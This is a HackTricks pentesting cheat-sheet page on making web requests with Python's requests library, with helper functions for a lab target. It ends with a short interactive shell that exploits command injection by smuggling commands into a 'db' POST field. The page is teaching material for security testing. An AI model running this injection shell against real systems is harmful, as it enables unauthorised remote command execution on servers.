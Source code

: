 # Web Requests

![](<../../.gitbook/assets/image (9) (1) (2).png>)

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Python Requests

```python
import requests

url = "http://example.com:80/some/path.php"
params = {"p1":"value1", "p2":"value2"}
headers = {"User-Agent": "fake User Agent", "Fake header": "True value"}
cookies = {"PHPSESSID": "1234567890abcdef", "FakeCookie123": "456"}
proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}

#Regular Get requests sending parameters (params)
gr = requests.get(url, params=params, headers=headers, cookies=cookies, verify=False, allow_redirects=True)

code = gr.status_code
ret_headers = gr.headers
body_byte = gr.content
body_text = gr.text
ret_cookies = gr.cookies
is_redirect = gr.is_redirect
is_permanent_redirect = gr.is_permanent_redirect
float_seconds = gr.elapsed.total_seconds() 10.231

#Regular Post requests sending parameters (data)
pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

#Json Post requests sending parameters(json)
pr = requests.post(url, json=params, headers=headers, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

#Post request sending a file(files) and extra values
filedict = {"<FILE_PARAMETER_NAME>" : ("filename.png", open("filename.png", 'rb').read(), "image/png")}
pr = requests.post(url, data={"submit": "submit"}, files=filedict)

#Useful for presenting results in boolean/time based injections
print(f"\rflag: {flag}{char}", end="")




##### Example Functions
target = "http://10.10.10.10:8000"
proxies = {}
s = requests.Session()

def register(username, password):
    resp = s.post(target + "/register", data={"username":username, "password":password, "submit": "Register"}, proxies=proxies, verify=0)
    return resp

def login(username, password):
    resp = s.post(target + "/login", data={"username":username, "password":password, "submit": "Login"}, proxies=proxies, verify=0)
    return resp

def get_info(name):
    resp = s.post(target + "/projects", data={"name":name, }, proxies=proxies, verify=0)
    guid = re.match('<a href="\/info\/([^"]*)">' + name + '</a>', resp.text)[1]
    return guid

def upload(guid, filename, data):
    resp = s.post(target + "/upload/" + guid, data={"submit": "upload"}, files={"file":(filename, data)}, proxies=proxies, verify=0)
    guid = re.match('"' + filename + '": "([^"]*)"', resp.text)[1]
    return guid

def json_search(guid, search_string):
    resp = s.post(target + "/api/search/" + guid + "/", json={"search":search_string}, headers={"Content-Type": "application/json"}, proxies=proxies, verify=0)
    return resp.json()

def get_random_string(guid, path):
    return ''.join(random.choice(string.ascii_letters) for i in range(10))
```

## Python cmd to exploit an RCE

```python
import requests
import re
from cmd import Cmd

class Terminal(Cmd):
    prompt = "Inject => "

    def default(self, args):
        output = RunCmd(args)
        print(output)

def RunCmd(cmd):
    data = { 'db': f'lol; echo -n "MYREGEXP"; {cmd}; echo -n "MYREGEXP2"' }
    r = requests.post('http://10.10.10.127/select', data=data)
    page = r.text
    m = re.search('MYREGEXP(.*?)MYREGEXP2', page, re.DOTALL)
    if m:
        return m.group(1)
    else:
        return 1
    

term = Terminal()
term.cmdloop()
```

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

![](<../../.gitbook/assets/image (9) (1) (2).png>)

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
